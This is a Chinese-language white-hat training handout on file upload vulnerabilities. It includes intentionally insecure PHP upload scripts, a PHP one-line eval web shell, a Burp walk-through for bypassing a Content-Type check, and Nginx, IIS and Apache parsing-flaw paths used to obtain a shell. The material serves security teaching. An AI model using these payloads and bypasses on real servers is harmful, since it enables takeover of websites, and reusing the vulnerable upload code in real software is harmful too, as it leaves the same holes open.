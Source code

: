 ```yaml
---
title: "米斯特白帽培训讲义 漏洞篇 文件上传"
id: csdn53785053
---
```


# 米斯特白帽培训讲义 漏洞篇 文件上传

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0]([http://creativecommons.org/licenses/by-nc-sa/4.0](http://creativecommons.org/licenses/by-nc-sa/4.0)

我们首先看一下文件上传的流程图。

![](../img/f458229553be28385f7370f9ae1c0aff.png)

其中，浏览器通过上传页面将文件储存到服务器中。一般这些上传页面都会有限制（比如限制格式为`jpg/gif/png`等等，或者限制文件大小）。

我们所关注的这个上传页面，一旦限制了文件就可能导致我们的渗透测试失败。那么真的完全失败了吗？后面会讲到很多方法，代码本身我们突破不了，但是我们可以用这些方法来绕过限制。

漏洞页面大致分为两种，一种是不限制任何格式，随意上传，这种现在比较少了。另一种是限制`Content-type`，虽然它限制了文件类型，但我们就可以突破它。

## 任意文件上传

看一下这段代码：

```
<form action="" method="POST" ENCTYPE="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo '上传成功！';
else
    echo '上传失败！';
```

首先是一个文件上传表单，我们可以看到表单中多了一个`enctype`属性，是因为文件上传的格式和之前不一样，不加这个就无法识别了。

然后会检查是否接受到了上传文件，没有接收到就直接结束。之后会打印出文件信息，便于我们调试。之后将上传文件的名称和保存上传文件的目录拼接，将文件从临时目录移动到这个目录。最后输出成功或失败信息。

将其保存为`upfile.php`后，我们首先访问它并尝试上传一个文件。我们把一句话`<?php @eval($_POST['a']) ?>`写入`1.php`，然后把它上传到服务器。

![](../img/11cfc8c7620fbc83194a10d5956e0f9c.png)

于是我们看到上传成功。

![](../img/bca3ca047312e956074ef7550b12a6f7.png)

我们可以看到打印出的文件信息，其中：

*   `userfile`是这个文件在数组中的索引，也是表单中的文件上传输入框的名称。
*   `name`是这个文件的文件名。
*   `type`是这个文件的类型。
*   `tmp_name`是这个文件的临时完整路径。
*   `error`是错误代码。
*   `size`是文件大小。

之后，尝试直接访问所上传的文件，发现访问成功。

![](../img/4bfc784792162ecdbd4e0f719f062287.png)

然后我们就可以拿菜刀连接了。

![](../img/052f9f51f35e55c897182a633e283cac.png)

我们可以看到连接成功，那么我们就成功地 GetShell 了。

## 存在限制

如果`upfile.php`的内容变成这样：

```
<form action="" method="POST" enctype="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
if(@$_FILES['userfile']['type'] != "image/gif"){
        echo "对不起，我们只允许上传GIF格式的图片!!";
        exit;
}
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo "上传成功！";
else
    echo "上传失败！";
```

这段代码多出来的东西就是，它首先验证了文件类型，如果是`gif`则放过，不是则拦截。那么根据`multipart`编码类型，`type`这个东西在浏览器生成之后，是可以改的。我们可以通过 Burp 拦截并修改这个值。

首先我们打开 Burp，配置代理，访问`upfile.php`。之后开启拦截模式并上传一个文件：

我们拦截之后，找到`Content-Type`，发现他是`application/oct-stream`，我们把它改成`image/gif`，之后放行（可能需要多次，在我这里是这样）。

![](../img/efbf0132fac0b958f3e812c8b07efdfb.png)

![](../img/dfdd572d4492ac9b93dae9fbc8eb9a08.png)

然后我们可以看到上传成功，上传目录中出现了我们上传的文件。

![](../img/24028287d55bdf458e05f7ca6c491491.png)

![](../img/7120e37d9ca71cec036b6196b691d637.png)

## Nginx 解析漏洞

如果服务器是 Nginx，我们可以直接上传图片格式，利用解析漏洞拿 Webshell。漏洞成因是，由于 Nginx 部分版本程序自身的漏洞，导致可以解析并执行非脚本文件。

假设存在漏洞的站点上有一张图片，URL 地址为：

```
www.xxx.com/logo.jpg
```

我们正常访问时，Nginx 会把它当做非脚本，直接读取并传给客户端。但是如果我们这样访问：

```
www.xxx.com/logo.jpg/a.php
```

他就会把`logo.jpg`当做 PHP 文件来执行。或者是

```
www.xxx.com/logo.jpg%00.php
```

也会导致图片执行，这个是 7 月中旬爆出的解析漏洞。

要利用这个漏洞，我们可以随便找一张图片，在里面插入一句话：

![](../img/b687ab14dea02976a0212d74ac14f1ed.png)

我们将其上传之后，访问图片的 URL，确认上传成功。

![](../img/92df612b1ed2961568d6849dda2a8699.png)

然后我们利用该解析漏洞构造 URL，发现也能够成功访问，也能拿菜刀来连接。

![](../img/4854624e229505e2adb5d8ea7505d06a.png)

![](../img/c8c4cb129d4da0be75c1012d32b93e2b.png)

## IIS 解析漏洞

IIS 5.x/6.0 主要存在两个解析漏洞，第一个是目录解析：

```
/a.asp/b.jpg
```

其中`a.asp`是目录，`b.jpg`是真实存在的文件，那么`b.jpg`会当做`asp`文件来执行。这个漏洞需要我们能够创建目录。

第二个是文件解析，也就是分号截断：

```
a.asp;.jpg
```

这个文件的扩展名在上传时是`jpg`，但是上传之后，IIS 会把它当做`asp`文件来解析。

另外，在IIS 中，可执行脚本的扩展名除了`asp`之外，还有`asa`、`cdx`、`cer`。许多网站往往就过滤不全，一定要重视！！

## Apache 解析漏洞

Apache 的解析漏洞比较有意思，它从右到左解析扩展名，如果碰到不认识的扩展名，则继续往下解析。比如我们上传`a.php.x1.x2.x3`，它按照`x3 x2 x1 php`的顺序解析扩展名，但是他不认识后面三个，所以只能将其解析为`php`。但在文件上传时，文件的扩展名一直是`x3`，所以可以绕过一些校验。

## 参考

*   [文件解析漏洞总结](http://blog.csdn.net/wizardforcel/article/details/50695896)